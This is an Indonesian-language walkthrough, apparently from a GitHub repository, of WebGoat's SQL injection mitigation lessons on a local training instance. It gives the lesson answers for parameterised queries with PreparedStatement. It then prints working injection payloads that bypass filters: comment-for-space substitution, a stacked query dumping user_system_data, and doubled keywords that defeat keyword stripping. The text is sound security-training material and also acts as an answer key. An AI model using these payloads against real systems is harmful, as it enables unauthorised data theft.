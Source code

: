 # SQL Injection (mitigation)
Ini adalah pertahanan terbaik terhadap SQL injection, yaitu dengan data sebagai satu kesatuan yang terikat pada kolom tanpa interpretasi. 

## Try it! Writing safe code
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/SqlInjectionMitigations.lesson/4 masukkan jawaban sebagai berikut
```sh
getConnection
PreparedStatement
prepareStatement
?
?
statement.setString(1, name)
statement.setString(2, mail)
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%202.JPG)

## Try it! Writing safe code
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/SqlInjectionMitigations.lesson/5 dan tuliskan source code berikut ini kemudian tekan tombol **Submit**
```sh
try {
    Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
    PreparedStatement statement = conn.prepareStatement("SELECT status FROM users WHERE name=? AND mail=?");
    statement.setString(1, "name");
    statement.setString(2, "mail");
    statement.executeUpdate();
} catch (Exception e) {
    System.out.println("Oops. Something went wrong!");
}
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%204.JPG)

## Input validation alone is not enough!!
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/SqlInjectionMitigations.lesson/8
- Ketikkan query injection berikut ini kemudian tekan tombol **Get Account Info**
```sh
a' or '1'='1
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%206.JPG)

- Setelah diinput, muncul keterangan bahwa inputan spasi tidak diperbolehkan. Kita bisa menggantinya dengan tanda komen `/**/` sehingga query injection menjadi sebagai berikut ini. Inputkan query berikut kemudian tekan tombol **Get Account Info**
```sh
a'/**/or/**/'1'='1
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%207.JPG)

- Query injection tersebut ternyata berhasil. Sekarang kita tinggal membuat query injection untuk menampilkan seluruh data di tabel **user_system_data**
```sh
a';/**/select/**/*/**/from/**/user_system_data;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%208.JPG)

## Input validation alone is not enough!!
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/SqlInjectionMitigations.lesson/9
- Kita bisa mencoba menginputkan query injection di task sebelumnya
```sh
a';/**/select/**/*/**/from/**/user_system_data;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%209.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2010.JPG)

- Terlihat disini bawah semua string yang berhubungan dengan syntak SQL akan dihapus. Jadi kita bisa mengubahnya menjadi seperti berikut ini, dimana ketika string yang berhubungan syntak dihapus, akan tetap terbentuk query injection diatas
```sh
a';/**/seselectlect/**/*/**/frfromom/**/user_system_data;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20mitigation/sqli%20mitigation%2011.JPG)